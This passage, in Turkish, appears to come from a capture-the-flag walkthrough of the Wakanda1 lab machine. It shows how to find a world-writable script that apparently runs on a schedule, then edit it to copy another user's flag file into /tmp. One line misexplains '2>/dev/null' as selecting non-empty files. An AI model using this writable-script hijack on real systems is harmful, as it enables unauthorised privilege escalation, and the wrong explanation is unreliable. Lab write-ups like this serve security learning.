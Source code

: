 Araştırmaya devam edelim. Bu kullanıcının diğer dosya larını inceleyelim. Şu şekilde bir komutla kullanıcıye ait dosyalar aranıp listelenebilir.

```text
mamadou@Wakanda1:/home/devops$ find / -user devops 2>/dev/null
/srv/.antivirus.py
/tmp/test
/home/devops
/home/devops/.bashrc
/home/devops/.profile
/home/devops/.bash_logout
/home/devops/flag2.txt
```

Komutu şu şekilde açıklayalım:

* `find` dosya ve dizin aramak için kullanılan bir komut.
* `/` root klasöründen başlayarak ara.
* `-user devops` devops kullanıcısına ait dosyalar.
* `2>/dev/null` boş olmayan dosyalar demektir.

İlk iki sıradaki dosyaları inceleyelim. `/tmp/test` ve `/srv/.antivirus.py`. diğer dosyalar zaten home dizininde.

"test" dosyasını incelediğimizde içinde sadece "test" yazdığını görüyoruz. Buradan pek bi şey çıkmadı.

```text
mamadou@Wakanda1:/tmp$ cat test
testmamadou@Wakanda1:/tmp$
```

`antivirus.py` dosyasını incelediğimizde biraz ilgimizi çekiyor.

```text
mamadou@Wakanda1:/srv$ ls -al
total 12
drwxr-xr-x  2 root   root      4096 Aug  1 17:52 .
drwxr-xr-x 22 root   root      4096 Aug  1 13:05 ..
-rw-r--rw-  1 devops developer  199 Nov 21 09:02 .antivirus.py
mamadou@Wakanda1:/srv$ cat .antivirus.py
open('/tmp/test','w').write('test')
```

Bu dosya oldukça ilginç. Çünkü dosyayı okuma ve yazma yetkimiz var. Bu şu demek: dosyayı istediğimizi elde etmek için değiştirebiliriz demek. Bu dosyayı şu şekilde değiştirirsek devops kullanıcısının home dizinindeki flag2.txt dosyasını görüntüleyebiliriz.

```python
open('/tmp/test','w').write('test')

a = open("/home/devops/flag2.txt", "r").read()
open("/tmp/flag2.txt","w").write(str(a))
```

Bu şekilde dosyayı düzenledikten sonra ve birkaç dakika geçtikten sonra flag2.txt dosyasını tmp dizininin alrından okuyabiliriz.
